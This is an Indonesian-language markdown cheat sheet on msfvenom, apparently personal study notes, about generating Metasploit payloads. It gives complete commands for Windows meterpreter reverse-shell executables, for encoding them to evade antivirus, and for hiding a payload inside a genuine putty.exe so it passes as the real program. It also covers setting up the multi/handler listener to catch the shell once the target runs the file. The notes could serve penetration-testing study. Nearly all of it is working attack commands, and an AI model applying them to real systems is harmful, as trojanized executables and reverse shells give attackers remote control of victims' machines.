 # Msfvenom

`msfvenom` digunakan untuk membuat payload dalam berbagai format, yang bisa dijalankan di target setelah exploit berhasil.

## ⚙️ Membuat Payload Dasar

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP-kita> LPORT=<PORT-kita> -f exe -o kebaikan.exe
```

Contoh:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=5555 -a x64 -e x64/zutto_dekiru -i 15 --platform windows -n 500 -f exe -o kebaikan.exe
```

### Keterangan Parameter

- `-p` : Pilih payload

- `LHOST` : IP listener kita

- `LPORT` : Port listener kita

- `-a` : Arsitektur (contoh: x64)

- `-e` : Encoder, untuk bypass antivirus

- `-i` : Iterasi encoder (semakin tinggi, semakin banyak encode)

- `-n` : Ukuran NOP sled

- `-f` : Format output file (contoh: exe, elf, apk, dll)

- `-o` : Output file

## 💣 Buffer Overflow

**Buffer Overflow** terjadi saat data melebihi kapasitas buffer di memori, sehingga menimpa bagian memori lain, termasuk instruksi program. Teknik ini bisa digunakan untuk mengeksekusi payload.

### NOP Sled Strategy

```
[ NOP sled ] + [ Payload ] + [ Return Address ]
```

NOP (`No Operation`) digunakan untuk memberi ruang "mendarat" ke payload jika alamat return tidak tepat.

[`Running a Buffer Overflow Attack - Computerphile`](https://youtu.be/1S0aBV-Waeo?si=JOZoMlj2EH8CtUSD)


## 📦 Daftar Encoder Tersedia

```bash
msfvenom --list encoders
```

## 🚀 Daftar Payloads Tersedia

Untuk melihat semua jenis payload yang tersedia di Metasploit, gunakan:

```bash
msfvenom --list payloads
```

Perintah ini akan menampilkan semua **payload** yang bisa kita gunakan dengan `msfvenom`.

Contoh payload:

- `windows/meterpreter/reverse_tcp`

- `linux/x86/shell_reverse_tcp`

- `android/meterpreter/reverse_http`

Gunakan payload yang sesuai dengan sistem target dan tujuan eksploitasi.

## 🧪 Payload dengan Template Binary (-x)

Agar payload tampak seperti program asli (misal: PuTTY), bisa gunakan `-x` untuk menyisipkan payload ke file executable asli.

### Contoh

1. Download `putty.exe`

2. Jalankan perintah:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP-kita> LPORT=<PORT> -x putty.exe -f exe -o Putty.exe
```

## 🎧 Setup Listener dengan Metasploit

```bash
use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST <IP>

set LPORT <PORT>

run
```

Kemudian jalankan file `Putty.exe` hasil payload tadi di target.



## 📚 Belajar


[`Metasploit - Msfvenom`](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)

[`OffSec - MSFvenom`](https://www.offsec.com/metasploit-unleashed/msfvenom/)